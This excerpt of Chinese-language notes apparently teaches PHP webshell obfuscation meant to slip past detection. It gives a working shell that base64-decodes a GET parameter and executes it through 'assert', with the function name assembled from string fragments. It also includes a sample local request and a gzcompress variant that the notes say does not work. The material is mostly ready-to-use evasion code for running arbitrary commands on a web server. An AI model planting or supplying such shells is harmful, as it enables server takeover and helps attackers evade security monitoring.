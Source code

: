 ```php
```

### base64加参数加密

```php
<?php
$func = base64_decode($_GET["func"]);
#cGhwaW5mbygp  -->  phpinfo()
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($func);
?>
```

```http
http://127.0.0.1:8081/security/bypass/test10.php?func2=sert&func=cGhwaW5mbygp
```

### gzcompress系列

```php
<?php
$a = gzcompress("abc");
echo "压缩后: ".$a;

echo "<br>解压后: ".gzuncompress($a);
?>
```

<img src=".\图片\Snipaste_2023-04-26_13-58-30.png" alt="Snipaste_2023-04-26_13-58-30" style="zoom:80%;" />



可以看到这里解压后的内容变成了一堆乱码，在这里值得注意的是，如果我们利用方式依旧像base64一样是行不通，**因为这一串乱码是无法提过字符串的形式准确的返回给服务端的**：

```php
<?php
$func = gzuncompress($_GET["func"]);
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($func);
?>
```

<img src=".\图片\Snipaste_2023-04-26_14-00-29.png" alt="Snipaste_2023-04-26_14-00-29" style="zoom:80%;" />
